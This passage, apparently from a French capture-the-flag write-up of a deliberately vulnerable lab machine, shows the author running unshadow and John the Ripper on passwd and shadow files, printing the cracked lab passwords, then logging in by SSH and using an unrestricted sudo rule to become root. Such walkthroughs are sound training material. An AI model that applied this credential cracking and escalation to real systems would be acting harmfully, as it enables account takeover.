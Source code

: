 ```console
root@blinils:~# unshadow passwdCTF5.txt shadowCTF5.txt > passwd.db
root@blinils:~# john passwd.db --wordlist=/usr/share/dict/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
dolphins         (amy)
ne1410s          (patrick)
homebrew         (jennifer)
marvin1          (andy)
buckyboy         (loren)
```

Afin d'être le plus exhaustif possible, le mot de passe de root est fourni à John The Ripper.

```console
root@blinils:~# echo "50\$cent" > last
root@blinils:~# john passwd.db --wordlist=last
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Remaining 2 password hashes with 2 different salts
Press 'q' or Ctrl-C to abort, almost any other key for status
50$cent          (cyrus)
50$cent          (root)
2g 0:00:00:00 DONE (2018-01-03 05:07) 200.0g/s 100.0p/s 200.0c/s 200.0C/s 50$cent
Use the "--show" option to display all of the cracked passwords reliably
Session completed


root@blinils:~# john passwd.db --show
root:50$cent:0:0:root:/root:/bin/bash
patrick:ne1410s:500:500:Patrick Fair:/home/patrick:/bin/bash
jennifer:homebrew:501:501:Jennifer Sea:/home/jennifer:/bin/bash
andy:marvin1:502:502:Andrew Carp:/home/andy:/bin/bash
loren:buckyboy:503:503:Loren Felt:/home/loren:/bin/bash
amy:dolphins:504:504:Amy Pendelton:/home/amy:/bin/bash
cyrus:50$cent:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash

7 password hashes cracked, 0 left
```

Les investigations se poursuivent avec le compte suivant, Patrick, [qui dispose de privilèges](https://doc.ubuntu-fr.org/sudoers) plutôt... permissifs. 

```console
root@blinils:~# ssh patrick@192.168.56.101
patrick@192.168.56.101's password: 
Last login: Wed Apr 29 10:59:38 2009 from 192.168.229.1
[patrick@localhost ~]$ 

[patrick@localhost ~]$ sudo -l
Password:
User patrick may run the following commands on this host:
    (ALL) ALL

[patrick@localhost ~]$ sudo su
[root@localhost patrick]# 

[root@localhost patrick]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=unconfined_u:system_r:unconfined_t:s0

```